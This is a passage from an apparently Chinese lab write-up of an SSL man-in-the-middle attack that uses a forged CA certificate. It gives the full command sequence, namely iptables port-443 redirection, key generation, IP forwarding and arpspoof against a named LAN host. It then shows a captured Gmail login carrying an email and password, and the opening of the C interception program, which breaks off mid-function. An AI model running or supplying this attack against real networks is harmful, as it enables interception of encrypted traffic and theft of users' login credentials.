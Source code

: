   + iptables -t nat --flush

  + iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8888

  + openssl genrsa -out private.key 1024

  + openssl rsa -in private.key -pubout -out public.key

  + ./SSL_man_in_middle > ret
      另启一个命令行，执行

  + echo 1 >/proc/sys/net/ipv4/ip_forward

  + arpspoof -i eth0 -t 192.168.200.122 192.168.200.1
      当然，其中生成密钥的两行命令只有在第一次运行时才应该被包含。

#####实验结果
在主机A启动上面的脚本，并将脚本的输出存储到一个文件。在主机B使用firefox浏览器访问gmail时，出现如下警告，在选择继续访问后，出现了gmail的页面。

通过伪造CA证书，实现SSL中间人攻击 通过伪造CA证书，实现SSL中间人攻击,填写用户名密码登陆后，在主机A的输出文件中，查找passwd字段，得到以下结果：

```
ltmpl=default&ltmplcache=2&pstMsg=1&dnConn=&continue=https://mail.google.com/mail/?gausr=qwerty@gmail.com&service=mail&rm=false&dsh=-5222013950306778463&ltmpl=default&ltmpl=default&scc=1&timeStmp=&secTok=&GALX=FlcQNOGq3tg&Email=qwerty@gmail.com&Passwd=1234567890
```

其中标红的地方，便是我登陆时填写的用户名和密码，我们实验的目标达成了。

最后附上攻击使用的代码：
```
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <sys/param.h>
#include <linux/netfilter_ipv4.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/time.h>

#include <openssl/ssl.h>
#include <openssl/err.h>

#define LISTEN_BACKLOG 50

#define warning(msg) \
    do { fprintf(stderr, "%d, ", sum); perror(msg); } while(0)

#define error(msg) \
    do { fprintf(stderr, "%d, ", sum); perror(msg); exit(EXIT_FAILURE); } while (0)

int sum = 1;
struct timeval timeout = { 0, 1000000 };

int get_socket_to_server(struct sockaddr_in* original_server_addr) {
    int sockfd;

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
        error("Fail to initial socket to server!");
    if (connect(sockfd, (struct sockaddr*) original_server_addr,
            sizeof(struct sockaddr)) < 0)
        error("Fail to connect to server!");
    
    printf("%d, Connect to server [%s:%d]\n", sum,
            inet_ntoa(original_server_addr->sin_addr),
            ntohs(original_server_addr->sin_port));
    return sockfd;
```